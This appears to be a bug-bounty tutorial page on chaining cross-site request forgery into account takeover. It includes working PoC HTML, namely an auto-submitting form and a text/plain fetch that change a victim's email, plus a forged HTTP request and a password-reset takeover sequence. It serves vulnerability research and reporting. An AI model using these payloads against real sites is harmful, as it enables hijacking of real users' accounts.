

> Source: https://bugbounty.info/Chains/CSRF-to-ATO

# CSRF to Account Takeover

## Why This Chain Works

CSRF on a read endpoint is noise. CSRF on the email-change or password-change endpoint is a different story. If you can silently swap the victim's email to one you control, you own their account recovery flow. The next password reset email lands in your inbox, and the account is yours. The trick is that many modern apps protect CSRF inconsistently - state-changing endpoints on the API layer often have weaker protection than the legacy form-based ones.

Related: [CSRF](../Attack-Surface/Web/Authentication/CSRF), [Password Reset Flows](../Attack-Surface/Web/Authentication/Password-Reset), [XSS to Account Takeover](../Chains/XSS-to-Account-Takeover)

---

## Attack Flow



---

## Step-by-Step

### 1. Distinguish State-Changing from Read-Only Endpoints

CSRF only matters on endpoints that change state. Before building a PoC, confirm the endpoint is actually dangerous:

- `POST /account/email` - change account email (high value)
- `POST /account/password` - change password (high value)
- `POST /account/phone` - change recovery phone (high value)
- `POST /api/user/profile` - update profile fields (medium, may include email)
- `GET /account/delete` - account deletion via GET (rare but exists)
- `GET /email/confirm?token=...` - confirm email change via GET (sometimes forgeable)

Read endpoints like `GET /api/user/me` carry no CSRF risk on their own.

### 2. Check SameSite and Token Protections

Intercept the state-changing request. Look for:

```http
Cookie: session=abc123; SameSite=Lax
X-CSRF-Token: abcd1234
```

**What still works in 2026:**

- `SameSite=None` - full cross-origin POST works, classic CSRF
- `SameSite=Lax` with a GET-based state change - top-level navigation still carries the cookie
- `SameSite=Lax` with a POST, but the CSRF token is absent or predictable
- `SameSite=Strict` - requires being on-origin, but XSS or a subdomain takeover on a wildcard-scoped cookie domain can bridge this
- `Content-Type: application/json` requests without a token - many servers accept `text/plain` content-type which bypasses preflight and still carries cookies

### 3. PoC A - Email-Change CSRF

Host this page on your server and send the URL to the victim:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf" action="https://target.com/account/email" method="POST">
  <input name="email" value="attacker@attacker.com">
  <input name="confirm_email" value="attacker@attacker.com">
</form>
<script>document.getElementById('csrf').submit();</script>
</body>
</html>
```

For JSON-based APIs where `Content-Type: application/json` triggers a preflight, try the fetch trick with `text/plain`:

```html
<script>
fetch('https://target.com/api/account/email', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type': 'text/plain'},
  body: '{"email":"attacker@attacker.com"}'
});
</script>
```

Some servers parse the body as JSON regardless of the declared content type.

### 4. PoC B - Password Reset Delivery After Email Change

Once the email change fires, you own the recovery flow:

```text
1. Email-change CSRF fired: victim's email is now attacker@attacker.com
2. Navigate to https://target.com/forgot-password
3. Enter: attacker@attacker.com
4. Password reset email arrives in attacker inbox
5. Click reset link, set new password
6. Log in as victim with new credentials
```

This is why email-change CSRF is worse than password-change CSRF. A password-change CSRF requires knowing the current password in many flows. An email-change CSRF bypasses that entirely.

### 5. Handling CSRF Tokens

If a CSRF token exists, check:

- Is it validated server-side, or just present? (Remove it and retry)
- Is it tied to the session, or a static per-account value? (Try a token from your own session)
- Is it in a cookie rather than a form field? (Cookie-to-header patterns can be forgeable)
- Is it only enforced on some HTTP methods? (Try PUT or PATCH instead of POST)

```http
POST /account/email HTTP/1.1
Host: target.com
Cookie: session=VICTIM_SESSION
 
email=attacker%40attacker.com
```

No CSRF token sent. If the server processes it, the token check is absent or broken.

---

## PoC Template for Report

```text
Vulnerability: CSRF on email-change endpoint enabling account takeover
 
Step 1: Email-change CSRF
  - Victim is logged into target.com with email victim@victim.com
  - Victim visits attacker's page at https://attacker.com/csrf.html
  - Page auto-submits: POST /account/email with email=attacker@attacker.com
  - No CSRF token required; server responds 200 OK
  - Victim's account email is now attacker@attacker.com
 
Step 2: Password reset to attacker inbox
  - Attacker requests password reset for attacker@attacker.com
  - Reset link delivered to attacker's email
  - Attacker sets new password: NewPass123!
  - Attacker logs in as victim with new credentials
  - Screenshot of victim dashboard attached
 
Impact: Any authenticated user's account can be taken over by getting them to visit a single attacker-controlled page.
```

---

## Public Reports

- CSRF to full account takeover via email change on Shopify - [HackerOne #214009](https://hackerone.com/reports/214009)
- CSRF on password change endpoint on HackerOne - [HackerOne #9738](https://hackerone.com/reports/9738)
- Account takeover via CSRF on email-change on Yahoo - [HackerOne #61170](https://hackerone.com/reports/61170)
- CSRF token bypass leading to account takeover on Badoo - [HackerOne #127703](https://hackerone.com/reports/127703)

---

## Reporting Notes

Show both stages: the CSRF firing and the ATO completing. A report that stops at "the email changed" will get triaged as high. A report that shows a working login to the victim's account gets critical. Include the PoC HTML page verbatim. Note the SameSite policy on the session cookie, because that determines whether the program thinks this is "already mitigated." If SameSite is absent or None, make that explicit - it is the condition that makes the attack work without any user interaction beyond visiting a page.
